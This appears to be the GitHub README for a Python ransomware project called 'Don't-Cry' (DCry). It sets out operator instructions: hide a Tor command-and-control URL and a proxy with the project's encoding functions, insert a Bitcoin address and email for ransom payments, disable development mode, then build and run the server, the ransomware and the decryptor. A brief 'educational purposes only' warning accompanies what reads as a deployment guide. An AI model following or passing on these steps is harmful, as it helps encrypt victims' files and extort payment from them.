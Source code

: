 <h1 align="center">Don't-Cry Ransomware</h1>
  
<div align="center">

  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Requires-Rust%20%3E%3D%201.87.0-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue" alt="Platform">
</div>

![DCry](https://raw.githubusercontent.com/memecoder12345678/DCry-Ransomware-PoC/main/imgs/DCry.png)
Ransomware written in Python 💀💀💀
## Usage
* Open the [`DCry.py`](https://github.com/memecoder12345678/DCry-Ransomware-PoC/blob/main/src/DCry.py) file.
* Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Use the `ex42` function from the `edx42` module to encode your URL first.)
  
  Example:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Replace the `YOUR_PROXY` variable similarly with your encoded proxy string:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Replace `YOUR_BITCOIN_ADDRESS` with your actual Bitcoin address string.
* Replace `YOUR_EMAIL_ADDRESS` similarly with your encoded email address. 
  ```python 
  YOUR_EMAIL_ADDRESS = dx42(b"YOUR_ENCODED_EMAIL_ADDRESS").decode()   
  ```
* Set `dev_mode = False` to disable development mode.
* Open the [`Decryptor.py`](https://github.com/memecoder12345678/DCry-Ransomware-PoC/blob/main/src/Decryptor.py) file.
* Set `dev_mode = False` to disable development mode.
* Install the required packages with the following command:
  ```bash
  pip install -r requirements.txt
  ```
* Build the Cython code with the following command:
  ```bash
  python src/setup.py build_ext --inplace
  ```
* Run the server with the following command:
  ```bash
  python src/server.py
  ```
* Run the ransomware with the following command:
  ```bash
  python src/DCRY.py
  ```
* Run the decryptor with the following command:
  ```bash
  python src/decryptor.py
  ```
## Warning
> \[!WARNING]
> This project is a ransomware simulation for educational purposes only.
## License
* This project is licensed under the terms of the [Apache License 2.0](./LICENSE).
